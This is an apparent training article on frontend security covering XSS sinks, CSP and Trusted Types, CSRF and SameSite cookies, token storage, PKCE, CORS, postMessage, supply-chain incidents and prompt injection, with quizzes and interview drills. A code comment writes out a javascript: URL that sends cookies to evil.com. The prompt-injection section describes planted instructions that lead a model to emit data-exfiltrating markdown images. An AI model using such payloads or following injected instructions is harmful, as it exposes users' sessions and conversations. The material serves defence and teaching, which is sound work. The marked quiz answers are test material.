

# Frontend Security

> XSS, CSRF, CSP, token storage, supply chain -- the browser is an adversarial runtime.

- Track: **Frontend Systems** · Level: **core** · ~20 min
- [Open in the academy](https://deepeshk1204.github.io/staff-engineer-academy/#/topic/frontend/frontend-security)

Frontend security starts from one assumption: the code you ship runs on a machine
controlled by someone who may be trying to attack you, and everything it does is visible and
modifiable. There is no secret you can put in a bundle, no validation you can perform in the
browser that an attacker cannot skip, and no request your server receives that it can trust because
your own JavaScript sent it.

That sounds like it makes frontend security pointless. It does not -- it just relocates the goal.
You are not protecting the server from the user; the server does that. You are protecting **the
user from everyone else**: from script that gets injected into your page, from other sites acting
on the user's behalf, from a compromised dependency in your build, and from third-party code you
invited in.

## Why it exists: the same-origin model and its holes

The browser's core protection is the same-origin policy: script from `https://acme.com`
cannot read the DOM, cookies or storage of `https://evil.com`. If that held absolutely, most of
this topic would not exist.

Every vulnerability class below is a hole in that model. XSS is an attacker getting their code to
run *as* your origin, at which point same-origin protects them instead of you. CSRF is an attacker
causing the browser to issue an authenticated request to your origin without being able to read the
response -- write access without read access. CORS misconfiguration is you voluntarily granting read
access to an origin you did not mean to. Clickjacking is your origin rendered inside theirs, so the
user's click lands somewhere they cannot see. And a supply-chain compromise skips the model
entirely: the malicious code arrives inside your own bundle, indistinguishable from code you wrote.

That framing is worth carrying into an interview, because it explains why the defences look so
different from each other.



*Every class is a different hole in one model, which is why the five defences look nothing like each other.*

## XSS: the one that gives away everything

Cross-site scripting means attacker-controlled script executing in your origin. Once that
happens, it can read every cookie not marked `HttpOnly`, read `localStorage`, read the DOM
including anything the user has typed, issue authenticated requests with full credentials, and
rewrite the page. Every other frontend defence is downstream of not having XSS.

Three delivery routes, and the third is the one modern apps actually get hit by. **Stored** XSS is
persisted server-side -- a comment containing a script tag, served to every reader. **Reflected**
XSS bounces off a request, typically a query parameter echoed into the response, and needs the
victim to follow a crafted link. **DOM-based** XSS never involves the server at all: your own
JavaScript reads an attacker-influenced value and writes it into a dangerous sink.

React, Vue and Angular escape interpolated text by default, which eliminates the overwhelming
majority of historical XSS. What they cannot protect is the set of APIs that exist specifically to
bypass escaping.

**Dangerous sinks, and the one that looks safe**

```jsx
// 1. The obvious one. Whatever is in bio executes.
<div dangerouslySetInnerHTML={{ __html: user.bio }} />

// 2. javascript: URLs. React 18+ warns; it does not block.
//    href = "javascript:fetch('https://evil.com?c='+document.cookie)"
<a href={user.website}>Website</a>

// 3. The subtle one: a redirect target read from the URL.
//    ?next=javascript:... or ?next=https://evil.com/login-clone
const next = new URLSearchParams(location.search).get('next');
useEffect(() => { location.href = next; }, [next]);   // open redirect -> XSS

// 4. Client-side templating on untrusted data.
el.innerHTML = '<span>' + params.get('q') + '</span>';

// --- Correct versions ---

// Sanitise with a maintained library. Never a regex, never a denylist.
import DOMPurify from 'dompurify';
<div dangerouslySetInnerHTML={{
  __html: DOMPurify.sanitize(user.bio, { ALLOWED_TAGS: ['b','i','em','a','p'] })
}} />

// Allowlist the scheme, and parse rather than string-match.
function safeHref(raw) {
  try {
    const u = new URL(raw, location.origin);
    return ['http:', 'https:', 'mailto:'].includes(u.protocol) ? u.href : '#';
  } catch { return '#'; }
}

// Redirect targets: allowlist paths, never accept a full URL from a parameter.
const ALLOWED = new Set(['/dashboard', '/settings', '/billing']);
location.assign(ALLOWED.has(next) ? next : '/dashboard');
```

> **Server-side rendering adds a sink you cannot see**  
> Serialising state into an inline script element is standard practice and is a live
> injection point. `JSON.stringify` escapes for JavaScript *string* syntax, not for HTML parsing, so
> a closing script sequence inside a user's display name terminates the element in the HTML
> tokeniser -- which runs before JavaScript parsing -- and everything after it becomes a new script
> element the attacker controls.
> 
> Escape the angle brackets and ampersands in the serialised payload, or emit the state as a JSON
> script element with `type="application/json"` and read it with `JSON.parse`. The second is better,
> because the browser never treats those bytes as executable code at all.

## CSP and Trusted Types

Content Security Policy is a header telling the browser which script it is allowed to
execute. It is defence in depth: it does not fix the injection, it makes the injection fail to run.

The version that works is nonce-based with `strict-dynamic`. Your server generates a fresh random
nonce per response, puts it on every legitimate script tag, and `strict-dynamic` propagates trust
to scripts those trusted scripts create -- which is what makes it compatible with bundlers and
third-party loaders that inject tags. Crucially, `strict-dynamic` causes modern browsers to *ignore*
host allowlists, which is the point: allowlist-based CSP has been repeatedly shown to be bypassable
through JSONP endpoints and open redirects on allowlisted domains.

**A strict CSP that survives a real application**

```http
Content-Security-Policy:
  script-src 'nonce-r4nd0mPerResponse' 'strict-dynamic' https: 'unsafe-inline';
  object-src 'none';
  base-uri 'none';
  frame-ancestors 'none';
  require-trusted-types-for 'script';
  trusted-types default dompurify;
  report-uri /csp-report;
  report-to csp-endpoint

# Why the apparently contradictory values:
#   'unsafe-inline' and https: are ignored by any browser that understands
#   'strict-dynamic' or a nonce. They are fallbacks for old browsers, not holes.
#   object-src 'none'  — Flash and plugin-based bypasses.
#   base-uri 'none'    — stops <base> from repointing every relative script URL.
#   frame-ancestors    — clickjacking, and it supersedes X-Frame-Options.

<script nonce="r4nd0mPerResponse" src="/assets/app.a91f.js"></script>
```

Rolling this out matters as much as writing it. Deploy with
`Content-Security-Policy-Report-Only` first, collect violation reports for one to two weeks, and
expect to be surprised: a marketing tag manager, a session-replay agent, a browser extension, an
inline handler in a legacy template. Triage until the report volume is only genuine violations, then
switch to enforcing. Shipping enforcement directly is how you break checkout for a segment of users
you did not know existed.

**Trusted Types** goes further and addresses the actual root cause. With
`require-trusted-types-for 'script'`, the browser refuses to accept a plain string assigned to a
dangerous sink -- `innerHTML`, `outerHTML`, `script.src`, `eval`. Only a `TrustedHTML` object
produced by a registered policy is accepted. That converts DOM XSS from "audit every one of 400
sink usages forever" into "there are three registered policies and they are the review surface". It
is the single highest-leverage XSS control available, and it is a real migration -- expect to find
sink usages inside dependencies, which is why you allow a named `dompurify` policy rather than a
permissive default.

## CSRF and cookie semantics

CSRF exploits the fact that browsers attach cookies based on the *destination*, not on
who initiated the request. A form on `evil.com` that POSTs to `acme.com/transfer` sends the
victim's session cookie. The attacker cannot read the response -- same-origin policy still holds --
but for a state-changing request they do not need to.

`SameSite` is the primary defence and its three values behave quite differently.

**SameSite, precisely**

| Value | Cookie sent when | Consequence | Use for |
| --- | --- | --- | --- |
| `Strict` | Only for requests originating from the same site. Not even on a top-level navigation from another site. | A user following a link from email or Slack arrives logged out, then logs in again on refresh. Genuinely confusing. | High-value actions, or a second cookie required only for sensitive endpoints. |
| `Lax` | Same-site requests, plus top-level `GET` navigations from other sites. | Blocks cross-site `POST`, `PUT` and `DELETE`. The modern default in Chrome and Firefox. | Session cookies for almost every application. This is the right default. |
| `None` | Always, cross-site included. Requires `Secure`. | No CSRF protection from this mechanism at all. | Genuine third-party embedding -- a widget on customer domains, an SSO iframe. |
| Unset | Treated as `Lax` by Chrome and Firefox; historically `None`. | Do not rely on the default. Different browsers and versions differ, and Safari's ITP behaviour differs again. | Nothing. Always set it explicitly. |

`SameSite=Lax` is necessary and not sufficient, because it stops cross-*site* requests,
not cross-*origin* ones. A compromised subdomain -- `blog.acme.com`, often running third-party
software -- is the same site as `app.acme.com`, so it can issue requests that carry your cookie.
For anything sensitive keep a second layer: the double-submit pattern, where a random value appears
in both a cookie and a custom header and the server compares them, or a signed synchroniser token
tied to the session. Also check `Origin` on state-changing requests, since browsers send it on
cross-origin POSTs and it cannot be forged by page script.

And a bearer token in an `Authorization` header is immune to CSRF by construction: the browser
never attaches it automatically, so a cross-site form cannot produce it. That is the one genuine
security advantage of token-in-header over cookie auth, and it is why the trade-off below is not
one-sided.

## Where to keep a token

**Token storage, with the honest costs**

| Location | XSS exposure | CSRF exposure | Practical cost | Verdict |
| --- | --- | --- | --- | --- |
| `localStorage` | **Full.** Any injected script reads it and exfiltrates it. It also survives tab close, so the theft window is indefinite. | None -- not sent automatically. | Trivial to implement; works across tabs and subdomains. | Common and the weakest option. If you use it, you have decided XSS equals total account takeover. |
| JS memory only | Readable by injected script *while the page runs*, but not persisted, so the window is one session and there is nothing to steal after a reload. | None. | Lost on every reload, so you need a refresh mechanism -- usually an `HttpOnly` cookie, which reintroduces cookies. | Good for the access token, combined with a cookie-based refresh. |
| `HttpOnly; Secure; SameSite=Lax` cookie | **Not readable by script at all.** Injected script can still *use* it by making requests, but cannot exfiltrate it for later use off-device. | Present -- needs `SameSite` plus a token or `Origin` check. | Requires a same-site or proxied API; needs CORS `credentials` handling for cross-origin. | The strongest default for a first-party web app. |
| `sessionStorage` | Full, but scoped to one tab and cleared on close. | None. | Does not survive a new tab, which users find broken. | Marginally better than `localStorage`; still readable by any injected script. |

> **The honest version of this argument**  
> The internet insists `localStorage` is insecure and `HttpOnly` cookies are secure. The
> precise claim is narrower: with XSS, an attacker can make authenticated requests either way. The
> difference is **exfiltration**. A token read from `localStorage` can be sent to the attacker's
> server and replayed from their machine for as long as it is valid, including after the user closes
> the tab. An `HttpOnly` cookie cannot leave the browser, so the attacker is confined to acting
> through the compromised page while the user is on it -- which is worse for them and much more
> detectable for you.
> 
> So `HttpOnly` cookies are meaningfully better, and neither option makes XSS survivable. Spend your
> effort on Trusted Types and CSP first, then pick cookies.

## OAuth in a browser: PKCE

A browser app cannot hold a client secret, so the original OAuth implicit flow returned
the access token directly in the URL fragment. That was deprecated for good reasons: tokens landed
in browser history, in `Referer` headers, and in any logging that captured URLs.

The current answer is the authorisation code flow with **PKCE**. Before redirecting, the client
generates a random `code_verifier`, hashes it with SHA-256, and sends the hash as
`code_challenge`. The authorisation server returns a one-time code to the redirect URI. The client
then exchanges that code for a token while presenting the original `code_verifier`, and the server
checks that its hash matches the challenge it stored. An attacker who intercepts the code cannot
use it, because they do not have the verifier and cannot derive it from the hash.

Two details candidates usually miss. The `state` parameter is still required and is a distinct
control -- it binds the callback to the session you initiated and prevents CSRF on the redirect
itself; PKCE does not cover that. And a refresh token in a browser should be rotated on every use,
with reuse of a consumed token treated as evidence of theft and grounds for revoking the whole
token family.

## Framing, CORS and postMessage

**Clickjacking** loads your page in an invisible iframe over attacker content, so a click
the user believes lands on "Play video" actually lands on your "Confirm payment" button. The
defence is `frame-ancestors 'none'` in CSP, or `'self'`, which supersedes `X-Frame-Options` --
though sending both is still worth it for old browsers. If you must allow framing by specific
partners, enumerate them; never use a wildcard.

**CORS** is widely misunderstood as a security feature protecting your API. It is the opposite: it
is a mechanism for *relaxing* same-origin policy so a browser will let one origin read another's
responses. It protects the user, not the server, and it does nothing against a non-browser client --
`curl` ignores it entirely. Two configurations are dangerous. Reflecting the request's `Origin`
header into `Access-Control-Allow-Origin` combined with
`Access-Control-Allow-Credentials: true` means any origin can read authenticated responses; that is
a full data breach in two lines of middleware. And note that `Access-Control-Allow-Origin: *` is
rejected by browsers when credentials are included -- a constraint worth knowing, because people
work around it by reflecting the origin and create the first problem.

**postMessage** is the sanctioned channel between frames and windows, and it is only as safe as its
validation. Always pass an explicit target origin when sending -- `'*'` broadcasts your payload to
whatever document currently occupies that frame, which an attacker can change. Always check
`event.origin` against an exact allowlist when receiving, and compare with equality rather than
`startsWith` or `includes`, because `https://acme.com.evil.com` passes a `startsWith` check and
so does a check for a substring.

**postMessage, both ends done properly**

```js
// Sending: name the origin. '*' means "anyone who happens to be in this frame".
iframe.contentWindow.postMessage({ type: 'auth.token', token }, 'https://widget.acme.com');

// Receiving: exact match, then validate the payload shape.
const ALLOWED_ORIGINS = new Set(['https://widget.acme.com', 'https://acme.com']);

window.addEventListener('message', e => {
  if (!ALLOWED_ORIGINS.has(e.origin)) return;   // equality, never startsWith
  if (typeof e.data !== 'object' || e.data === null) return;
  if (e.data.type !== 'widget.resize') return;
  const h = Number(e.data.height);
  if (!Number.isFinite(h) || h < 0 || h > 2000) return;
  iframe.style.height = h + 'px';
});

// startsWith('https://acme.com') accepts https://acme.com.evil.com
// includes('acme.com')          accepts https://evil.com/?x=acme.com
```

## Supply chain and third-party script

A typical React application resolves to somewhere between 1,000 and 1,500 transitive
packages, each of which can run arbitrary code in your build and ship arbitrary code to your users.
This is the attack surface with the worst ratio of impact to attention.

The incidents are instructive because they were not exotic. **`event-stream` (2018)**: a
maintainer handed the package to a volunteer who added a dependency that, in a later version,
targeted a specific Bitcoin wallet app and exfiltrated keys. It reached millions of downloads
because it was a legitimate release by a legitimate maintainer. **`ua-parser-js` (2021)**: account
compromise, malicious versions published for a few hours, crypto-miner and credential stealer to
anyone who installed in that window. **Dependency confusion (2021)**: Alex Birsan showed that if
your internal package `@acme/auth` is not registered publicly, publishing a package with that name
to the public registry can cause build systems configured with both registries to prefer the public
one -- executing his code inside major companies' pipelines. **`xz-utils` (2024)** demonstrated the
patient version: years of legitimate contributions to earn maintainer trust before introducing a
backdoor.

None of those are caught by reading a diff. The controls are structural.

- **Lockfiles, and CI that honours them** — `npm ci` or `yarn --immutable`, never `npm install` in CI. An unpinned transitive range means your Tuesday build contains code that did not exist on Monday, from an author you never evaluated.
- **Scoped registry configuration** — Map `@acme/*` to your internal registry explicitly in `.npmrc`. This is the direct fix for dependency confusion, and it is two lines.
- **Ignore install scripts by default** — `npm config set ignore-scripts true`, with an allowlist for the handful that genuinely need them. Most supply-chain payloads execute at install time, before any code review would see them run.
- **Subresource Integrity for anything external** — Add `integrity="sha384-..."` and `crossorigin="anonymous"` to every externally-hosted script tag. The browser refuses to execute a body whose hash changed. Useless for versionless URLs, which is itself a reason to avoid them.
- **Provenance and signed attestations** — npm provenance links a published tarball to the source commit and the CI run that built it. Prefer dependencies that publish it, and publish it yourself.
- **Budget the dependency count** — Treat adding a package as a decision with a cost, and review transitive additions in pull requests. A four-line utility with 80 transitive dependencies is a bad trade.

Third-party script you add deliberately is the same risk with a friendlier name. An
analytics tag, a chat widget, a tag manager, or an A/B testing snippet runs with your origin's full
privileges -- it can read the DOM of your checkout form, read non-`HttpOnly` cookies, and issue
authenticated requests. Worse, a tag manager hands a non-engineering team the ability to inject
arbitrary script into production with no review, which is a deployment pipeline with no controls.

Three mitigations, in order of effectiveness. Put the script in a sandboxed iframe on a separate
origin and communicate via `postMessage`, so it has no access to your DOM at all -- this is what
Stripe Elements does, and it is why Stripe can make PCI claims your own form cannot. Failing that,
keep every third-party script out of the page on pages that handle credentials or payment. At
minimum, pin versions with SRI, restrict them in CSP, and audit what your tag manager actually
contains -- it is usually more than anyone remembers approving.

## Prompt injection as a frontend concern

If your app renders model output, you have a new untrusted input source, and it is one
that arrives with an air of authority.

The mechanism: your application builds a prompt that includes content the user or a third party
controls -- a support ticket, a scraped page, a document in a retrieval index. Instructions embedded
in that content can redirect the model. The model then produces output that your frontend renders.
So content an attacker wrote reaches your DOM having passed through a component your team trusts.

Three concrete frontend risks. **Markdown rendering** is the main one: if you render model output as
markdown and your renderer allows raw HTML, or allows `javascript:` and `data:` URLs in links and
images, you have XSS whose payload was written by an attacker and delivered by your own model. An
image tag pointing at an attacker's server with conversation content in the query string
exfiltrates data with no click at all. **Tool and action output**: if the model can trigger
application actions, injected instructions become injected actions, so every action needs
authorisation checked against the *user*, never against the model's request. **Citation links**
rendered from model-provided URLs need the same scheme allowlisting as any user-provided link.

Treat model output exactly as you treat a comment from an anonymous user: sanitise with a
maintained sanitiser and a strict allowlist, forbid raw HTML, allowlist URL schemes, and restrict
`img-src` and `connect-src` in CSP so an exfiltration attempt fails at the network layer even if
it reaches the DOM.

## Trade-offs

**Trade-offs**

What you gain:
- A strict nonce-based CSP turns most successful injections into non-executing text.
- Trusted Types reduces the DOM XSS review surface from every sink to a few registered policies.
- `HttpOnly` cookies remove token exfiltration, confining an attacker to the live page.
- `SameSite=Lax` plus an `Origin` check makes classic CSRF structurally impossible.
- Lockfiles, scoped registries and disabled install scripts close the cheapest supply-chain attacks.
- Sandboxing third-party script on another origin removes it from your DOM entirely.

What it costs you:
- Nonce-based CSP requires per-response HTML, so fully static caching of HTML gets harder.
- Trusted Types is a real migration and will break dependencies that write to sinks directly.
- Cookie auth needs same-site or proxied APIs, constraining your architecture.
- `SameSite=Strict` produces a confusing logged-out experience from email links.
- Disabling install scripts breaks some packages and needs an explicit allowlist.
- Dependency review is continuous work with no visible output when it succeeds.
- Sandboxed third-party widgets need a `postMessage` protocol you design, version and debug.

**Failure modes**

| Failure mode | What the user sees | Mitigation |
| --- | --- | --- |
| Rendering user HTML through `dangerouslySetInnerHTML` | Stored XSS -- full session theft for every viewer of that content. | DOMPurify with an explicit tag and attribute allowlist, plus Trusted Types so the raw-string path is rejected by the browser. |
| Redirect target taken from a query parameter | Open redirect used for phishing, and `javascript:` targets escalate to XSS. | Allowlist redirect paths; parse with `new URL` and check the protocol; never accept a full URL from a parameter. |
| `Access-Control-Allow-Origin` reflecting the request origin with credentials allowed | Any website can read your users' authenticated API responses -- a full data breach. | Static allowlist of origins; if you must reflect, validate against that allowlist and never wildcard with credentials. |
| `postMessage` origin checked with `startsWith` | `https://acme.com.evil.com` passes, so an attacker frame receives tokens or drives privileged actions. | Exact-match against a `Set` of allowed origins, then validate the payload shape and bounds. |
| `npm install` in CI with unpinned transitive ranges | A compromised dependency reaches production without any code change of yours. | `npm ci` with a committed lockfile, scoped registry mapping, `ignore-scripts`, and provenance checks. |
| Tag manager with no review path | Arbitrary script injected into production by a non-engineering team; it can read your checkout form. | Remove third-party script from credential and payment pages, restrict via CSP, sandbox on a separate origin, and audit container contents quarterly. |
| CSP shipped in enforce mode without a report-only phase | Critical third-party functionality silently blocked for a user segment you did not test. | `Content-Security-Policy-Report-Only` for one to two weeks, triage every violation, then enforce. |
| Model output rendered as markdown with raw HTML allowed | Prompt-injected payload becomes XSS; an image URL exfiltrates conversation content with no click. | Sanitise model output like anonymous user input, forbid raw HTML, allowlist URL schemes, restrict `img-src` and `connect-src`. |

> **Staff-level angle**  
> Most candidates list vulnerabilities. The Staff-level answer talks about controls,
> rollout, and what remains true after the control fails.
> 
> - "The premise is that nothing in the browser can be trusted. Client-side validation is a UX
>   feature; the server validates independently, including on requests my own code sent."
> - "I would rank the work by blast radius. XSS is first, because with XSS every other frontend
>   control is irrelevant -- the attacker is my origin. So: strict nonce CSP with `strict-dynamic`,
>   then Trusted Types, then `HttpOnly` cookies."
> - "Trusted Types is the highest-leverage control I know of, because it changes the shape of the
>   problem. Instead of auditing 400 sink usages forever, there are three registered policies and
>   those are the review surface."
> - "CSP goes out report-only for two weeks first. I have never seen a first policy that was correct
>   -- there is always a tag manager or a session-replay agent nobody mentioned."
> - "On token storage: the real difference is exfiltration, not exploitation. With XSS an attacker can
>   make requests either way, but a token from `localStorage` gets replayed from their machine for
>   hours after the user closes the tab. `HttpOnly` confines them to the live page, which is worse
>   for them and more detectable for us."
> - "CORS is not protecting our API -- it is us granting read access to another origin.
>   `curl` ignores it. The dangerous configuration is reflecting the `Origin` header with
>   `Allow-Credentials: true`, which is a data breach in two lines of middleware."
> - "Supply chain is the surface I would actually worry about: `npm ci` with a committed lockfile,
>   `@acme/*` mapped to the internal registry so dependency confusion is impossible, install scripts
>   off with an allowlist, and provenance where publishers support it."
> - "Third-party script on a payment page is a deployment pipeline with no review. I would sandbox it
>   on a separate origin behind `postMessage`, which is exactly why Stripe Elements can make claims
>   our own form cannot."
> 
> The pattern: name the control, name what it does *not* cover, and name how you roll it out without
> breaking production. Mentioning report-only rollout, dependency confusion by name, and the
> exfiltration framing of token storage are all strong signals.

**Check**

Your SSR app injects state into an inline script element using `JSON.stringify(state)`. A user sets their display name to a string containing a closing script tag followed by `alert(1)`. What happens?
- A. Nothing -- `JSON.stringify` escapes it.
- B. The injected script executes, because the HTML parser closes the script element before JavaScript parsing begins. **(answer)**
- C. Only if CSP is absent.
- D. The JSON parse fails and the page errors.

  `JSON.stringify` escapes for JavaScript *string* syntax, and a closing script sequence is perfectly valid inside a JS string -- but the HTML tokeniser runs first and terminates the script element there, making the rest of the payload a new script element. Escape the angle brackets and ampersands in the serialised output, or better, emit the state as a JSON script element and `JSON.parse` it, so those bytes are never executable. A strict CSP would also block it, which is exactly why CSP is worth having as a second layer.

Which pair is the most defensible for a first-party SPA with a same-site API?
- A. Access token in `localStorage`, no CSRF token.
- B. Access token in memory, refresh token in an `HttpOnly; Secure; SameSite=Lax` cookie, plus an `Origin` check on mutations. **(answer)**
- C. Both tokens in `sessionStorage`.
- D. Access token in a non-`HttpOnly` cookie so JS can read it for the `Authorization` header.

  Nothing long-lived is readable by script, so XSS cannot exfiltrate a credential for later replay off-device. The access token lives only in memory for the session, and the refresh cookie is `HttpOnly` so it cannot leave the browser. `SameSite=Lax` blocks cross-site mutations and the `Origin` check covers the compromised-subdomain case that `SameSite` does not. Option four is the common self-defeating pattern: it accepts all the cookie constraints while giving up the only protection cookies offer.

You add `Content-Security-Policy: script-src 'self' https://cdn.trusted.com`. Why is this weaker than it appears?
- A. It blocks your own bundles.
- B. Host allowlists are bypassable via JSONP endpoints or open redirects on allowlisted hosts; nonce plus `strict-dynamic` is the stronger construction. **(answer)**
- C. CSP does not apply to dynamically inserted scripts.
- D. `self` already allows all external scripts.

  Allowlisting a whole host trusts every endpoint on it, and research on CSP deployments found the large majority of allowlist policies bypassable -- typically through a JSONP callback or an open redirect on an allowlisted domain that lets an attacker get their code served from a trusted origin. Nonce-based CSP with `strict-dynamic` trusts specific script *instances* instead of hosts, and makes browsers ignore host allowlists altogether.

Your assistant feature renders model output as markdown. What is the most urgent control?
- A. Rate-limit the model API.
- B. Treat model output as untrusted: sanitise with a strict allowlist, forbid raw HTML, allowlist URL schemes, and restrict `img-src` and `connect-src`. **(answer)**
- C. Add a disclaimer that output may be inaccurate.
- D. Log all prompts for audit.

  Model output is downstream of attacker-controllable input -- a support ticket, a retrieved document -- so a prompt-injected payload can arrive in your DOM through a component your team trusts. Raw HTML or a `javascript:` link in rendered markdown is straightforward XSS, and an image URL pointing at an attacker server with conversation text in the query string exfiltrates data with no user interaction at all. Restricting `img-src` and `connect-src` in CSP is what makes that last one fail even if sanitisation is imperfect.

<details><summary>Related topics and how they connect</summary>

A nonce in CSP means HTML varies per response, which collides directly with the cache
policy in **CDN & Edge Delivery** -- and cache-key mistakes there are themselves authorisation
bugs. Cookie versus token choices and `Origin` validation belong to the contract design in
**API Contracts & the BFF**. Local data at rest is an exposure surface in **Offline-First & Sync**,
a long-lived socket that outlives its authorisation is a **Realtime** problem, and CSP violation
reports only help if someone sees them, which is **Frontend Observability**.

</details>

## Flashcards

- **Why is XSS the highest-priority frontend vulnerability?** — Injected script runs as your origin, so it reads non-`HttpOnly` cookies and storage, reads the DOM including typed input, and issues fully authenticated requests. Every other frontend control is downstream of not having it.
- **What is DOM-based XSS?** — Your own JavaScript reads an attacker-influenced value -- a query parameter, a fragment, a `postMessage` -- and writes it to a dangerous sink like `innerHTML` or a `javascript:` URL. The server is never involved, so server-side filtering cannot help.
- **Why nonce plus `strict-dynamic` instead of a host allowlist?** — Allowlisting a host trusts every endpoint on it, and JSONP callbacks or open redirects on allowlisted domains let an attacker get code served from a trusted origin. Nonces trust specific script instances, and `strict-dynamic` makes browsers ignore host allowlists.
- **What does Trusted Types change?** — With `require-trusted-types-for 'script'`, dangerous sinks reject plain strings and accept only objects from a registered policy. The review surface collapses from every sink usage to a handful of policies.
- **Difference between `SameSite=Lax` and `Strict`?** — `Lax` sends the cookie on same-site requests and on top-level cross-site `GET` navigations, blocking cross-site `POST`. `Strict` withholds it even on a top-level navigation, so users arriving from an email link appear logged out.
- **Why is `SameSite=Lax` insufficient on its own?** — It is same-*site*, not same-*origin*. A compromised subdomain such as `blog.acme.com` is the same site as `app.acme.com` and can issue requests carrying your cookie. Add a double-submit or synchroniser token and an `Origin` check.
- **The honest difference between `localStorage` and `HttpOnly` for tokens?** — Exfiltration. With XSS an attacker can make requests either way, but a `localStorage` token can be sent to their server and replayed off-device for its full lifetime. An `HttpOnly` cookie cannot leave the browser, confining them to the live page.
- **What does PKCE protect against, and what does it not?** — It stops an intercepted authorisation code from being exchanged, since the attacker lacks the `code_verifier` behind the SHA-256 challenge. It does not cover CSRF on the redirect itself -- that is still the `state` parameter's job.
- **What is dependency confusion?** — If an internal package name is unregistered publicly, an attacker publishes it to the public registry and build systems configured with both may prefer it, executing their code in your pipeline. Fix it by mapping your scope to the internal registry in `.npmrc`.

## Drills

### Drill

You inherit a React banking dashboard. Tokens are in `localStorage`, there is no CSP, the API allows `Access-Control-Allow-Origin` reflection with credentials, a tag manager injects three vendor scripts, and one page renders user-submitted HTML for advisor notes. You have one quarter. Prioritise and justify the order.

Probes:

- Which one do you fix first and why that one?
- How do you ship CSP without breaking the vendor scripts?
- What does moving tokens to cookies require elsewhere in the stack?
- What do you tell the team about the tag manager, given marketing depends on it?

Strong answer contains:

- Fixes the CORS reflection first -- it is an active unauthenticated data-exposure path readable by any origin, and it is a one-line middleware change.
- Next the rendered user HTML: DOMPurify with an explicit allowlist, since that is a live stored-XSS route on a banking product.
- Ships CSP report-only for one to two weeks, triages violations, and only then enforces -- explicitly expecting surprises from the tag manager and any session-replay agent.
- Sequences token migration after XSS work, and names the dependencies: same-site or proxied API, CORS credentials handling, and a refresh-rotation flow.
- Proposes removing third-party script from credential and payment pages and sandboxing what remains on a separate origin behind `postMessage`.
- Adds `npm ci` with a committed lockfile, scoped registry mapping and `ignore-scripts` as cheap, high-value structural controls.
- Explains that Trusted Types is the durable fix for the sink problem and plans it as a migration rather than a flag.

Weak answer tells:

- Starts with token storage, which does not help while stored XSS is live.
- Ships CSP in enforce mode and breaks vendor functionality.
- Sanitises with a regex or a denylist of tags.
- Treats CORS as a server-protection mechanism and does not see the reflection as a breach.
- No mention of supply chain or the tag manager as an unreviewed deploy path.
- Cannot articulate what remains exposed after each fix.

### Drill

You are adding an AI assistant to a customer-support tool. It reads ticket contents and knowledge-base articles, renders markdown responses, and can trigger actions such as issuing a refund or closing a ticket. Threat-model the frontend.

Probes:

- Where does untrusted input enter, and how many hops from there to the DOM?
- What is the worst thing an attacker can do by writing a malicious support ticket?
- How do you authorise an action the model requested?
- What CSP directives specifically matter here?

Strong answer contains:

- Identifies ticket content and knowledge-base articles as attacker-controllable, and traces the path through the model into rendered markdown.
- Names the exfiltration vector concretely: a markdown image whose URL carries conversation content, fetched with no user interaction.
- Sanitises model output with a strict allowlist, forbids raw HTML, and allowlists URL schemes on both links and images.
- Restricts `img-src` and `connect-src` so exfiltration fails at the network layer even if sanitisation is bypassed.
- Insists every action is authorised against the authenticated user server-side, and requires explicit human confirmation for irreversible ones such as refunds.
- Treats the model as an untrusted input transformer rather than a trusted component, and logs the injected-content provenance for incident response.

Weak answer tells:

- Trusts model output because it came from your own API.
- Relies on prompt engineering or a system prompt as the security boundary.
- Allows raw HTML in rendered markdown for formatting fidelity.
- Authorises actions based on the model's assertion of who the user is.
- No consideration of data exfiltration via image or link URLs.
